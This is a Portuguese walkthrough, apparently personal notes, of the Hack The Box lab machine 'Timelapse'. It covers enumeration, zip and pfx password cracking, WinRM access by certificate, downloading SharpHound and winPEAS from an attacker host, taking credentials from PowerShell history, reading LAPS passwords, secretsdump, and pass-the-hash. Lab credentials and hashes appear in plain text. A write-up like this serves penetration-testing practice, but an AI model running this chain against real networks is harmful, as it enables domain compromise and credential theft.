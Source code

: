 Timelapse
========================

## Enumeration

    sudo nmap_enum timelapse.htb | tee nmap_output.txt

![qownnotes-media-FvFesF](../../../media/qownnotes-media-FvFesF.png)

    sudo nmap -p- -Pn -T5 -n timelapse.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-hKZpit](../../../media/qownnotes-media-hKZpit.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn timelapse.htb | tee nmap_udp_output.txt

 ![qownnotes-media-RpqeyD](../../../media/qownnotes-media-RpqeyD.png)

    crackmapexec smb timelapse.htb
 
 ![qownnotes-media-THDfQf](../../../media/qownnotes-media-THDfQf.png)

    dnsenum -dnsserver 10.10.11.152 timelapse.htb
    
    
    dig axfr timelapse.htb @10.10.11.152
    
    dnsrecon -d timelapse.htb -n 10.10.11.152
    
 ![qownnotes-media-LdhbrU](../../../media/qownnotes-media-LdhbrU.png)


## Exploitation


Null session do smbclient

    smbclient //timelapse.htb/Shares
    dir
    cd Dev
    dir
    get winrm_backup.zip

Obtendo arquivo cujo conteúdo era o certificado para acessar a máquina via winrm.

![qownnotes-media-JYheJk](../../../media/qownnotes-media-JYheJk.png)


```
$ cat zip_cracker.py
import zipfile 
import sys
 
filename = sys.argv[2] 
dictionary = sys.argv[1] 
 
password = None 
file_to_open = zipfile.ZipFile(filename) 
with open(dictionary, 'r') as f: 
   for line in f.readlines(): 
         password = line.strip('\n') 
         try: 
               file_to_open.extractall(pwd=password) 
               password = 'Password found: %s' % password 
               print password 
         except: 
               pass 

$ python2 zip_cracker.py /usr/share/wordlists/rockyou.txt winrm_backup.zip
```
Another way:

```
zip2john winrm_backup.zip > text.txt
john --format=pkzip -w /usr/share/wordlists/rockyou.txt text.txt
unzip winrm_backup.zip
<supremelegacy>
pfx2john legacyy_dev_auth.pfx > text2.txt
john --format=pfx -w /usr/share/wordlists/rockyou.txt text2.txt

```
![qownnotes-media-KEWgXQ](../../../media/qownnotes-media-KEWgXQ.png)
![qownnotes-media-SGKHnH](../../../media/qownnotes-media-SGKHnH.png)

Uma vez obtido o certificado, era necessário gerar duas informações, uma chave privada e uma pública com os comandos abaixo:

    openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
    openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

Dessa forma a gente conseguia acesso na máquina via evil-winrm

    evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S -r timelapse.htb
ref: <https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/>
![qownnotes-media-lDuOTK](../../../media/qownnotes-media-lDuOTK.png)


## Privilege Escalation

Aqui eu fui fazer a enumeração para realizar a escalação de privilégio. Começando com bloodhound:

    wget http://10.10.14.10/SharpHound.exe -o sh.exe
    ./sh.exe
    mv 20231110164932_BloodHound.zip bh.zip
    download bh.zip

![qownnotes-media-qMxsCK](../../../media/qownnotes-media-qMxsCK.png)

    neo4j console
    <CTRL + Z>
    bg
    bloodhound

Arrastei o arquivo para o blodhound o que deu uma visão interessante a respeito do domínio:

![qownnotes-media-BydjMv](../../../media/qownnotes-media-BydjMv.png)



Nesse caso começou a ficar interessante, porque o usuário encontrado 


A máquina tinha o DCSync (impacket-secretsdump) no domínio. Então notei que esse seria o caminho para comprometer, no entanto seria necessário subir privilégio nela primeiro. Então comecei com o WinoPeas:

    wget http://10.10.14.10/4-privilege%20escalation/winPEASx64.exe -o wp.exe
    ./wp.exe


![qownnotes-media-GOrJaW](../../../media/qownnotes-media-GOrJaW.png)

![qownnotes-media-bvznRl](../../../media/qownnotes-media-bvznRl.png)

Encontrei no histórico do powershell infos importantes para lateralizar:


    type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit

![qownnotes-media-FKBEgW](../../../media/qownnotes-media-FKBEgW.png)


    net user /domain svc_deploy
        
![qownnotes-media-gkJwFL](../../../media/qownnotes-media-gkJwFL.png)

Então notei que esse usário obtido no histórico do powershell tinha permissão para fazer a leitura das senhas do LAPS, que pode ser feito da seguinte forma:

    crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps

ref: <https://exploit-notes.hdks.org/exploit/windows/active-directory/laps-pentesting/>
<https://www.hackingarticles.in/credential-dumpinglaps/>

![qownnotes-media-KpNAvb](../../../media/qownnotes-media-KpNAvb.png)

    impacket-secretsdump 'Administrator:B.o8F,yh;Pk/8x8}XdJZ5#7z@10.10.11.152'

![qownnotes-media-RVobil](../../../media/qownnotes-media-RVobil.png)


    
    impacket-wmiexec Administrator@10.10.11.152 -hashes aad3b435b51404eeaad3b435b51404ee:0adb371257d970bb1f28fda2c2f8eecc
    
 Já na máquina da vítima foi só fazer o seguinte:
 
     cd C:/
     dir /s root.txt